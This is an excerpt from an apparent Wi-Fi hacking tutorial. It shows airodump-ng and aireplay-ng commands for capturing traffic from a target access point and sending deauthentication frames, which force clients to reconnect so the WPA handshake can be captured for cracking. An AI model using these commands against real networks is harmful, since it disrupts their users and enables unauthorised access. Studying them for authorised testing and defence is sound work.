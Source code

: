 <figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

*   **Focus Capture on Specific AP and Channel:**

    ```
    kali > airodump-ng --bssid <BSSID> -c <channel> --write HackersAriseCrack wlan0mon
    ```

    Replace `<BSSID>` with the target AP's BSSID and `<channel>` with its operating channel.
*   **Deauthenticate a Client to Capture Handshake:**

    ```
    kali > aireplay-ng --deauth 100 -a <BSSID> wlan0mon
    ```

    This command sends deauthentication frames to a connected client (`-a <BSSID>`) to force reconnection and capture the handshake.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<table data-header-hidden><thead><tr><th width="207"></th><th></th></tr></thead><tbody><tr><td><strong>Command/Option</strong></td><td><strong>Description</strong></td></tr><tr><td><code>aireplay-ng</code></td><td>Command for Wi-Fi packet injection and deauthentication.</td></tr><tr><td><code>--deauth 100</code></td><td>Option to send 100 deauthentication frames to the AP.</td></tr><tr><td><code>-a &#x3C;BSSID></code></td><td>Specifies the BSSID (MAC address) of the target access point.</td></tr><tr><td><code>wlan0mon</code></td><td>Represents your Wi-Fi adapter in monitor mode.</td></tr></tbody></table>

